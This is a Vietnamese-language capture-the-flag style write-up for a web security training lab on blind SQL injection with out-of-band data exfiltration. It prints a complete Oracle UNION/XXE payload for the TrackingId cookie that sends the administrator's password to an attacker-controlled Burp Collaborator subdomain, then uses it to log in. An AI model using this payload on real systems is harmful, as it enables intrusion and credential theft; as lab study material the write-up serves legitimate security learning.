





# WEB

*Lab: Blind SQL injection with out-of-band data exfiltration*

## Tóm tắt

Thực hiện 1 truy vấn SQL bất đồng bộ sử dụng cookie TrackingId. Điều này không ảnh hưởng đến ứng dụng (blind) nhưng tương tác tới 1 server do attacker kiểm soát.
## Khai thác

1. Tiến hành mở trang web, bắt lại request chứa cookie TrackingId.

2. Sửa trường TrackingId thành 1 payload có thể lấy thông tin của tài khoản admin.
- Mục tiêu để server tương tác với máy chủ Collabrator của burpsuite.
- Sử dụng payload như trong ảnh. "TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--" 
- Lưu ý, thay chuỗi BURP-COLLABORATOR-SUBDOMAIN thành chuỗi lấy từ burpsuite ở bước dưới.

3. Lấy subdomain từ tab Collaborator trên burpsuite.
- Ấn vào copy to clipboard để copy subdomain

4. Dán thay subdomain vào TrackingId. Gửi request.
- Theo dõi tab Collaborator
- Khi có tương tác http, ấn vào để xem mật khẩu. Mật khẩu là phần nằm trước subdomain trong phần host(dưới ảnh)

 
5. Dùng mật khẩu đăng nhập vào trang để hoàn thành bài lab.

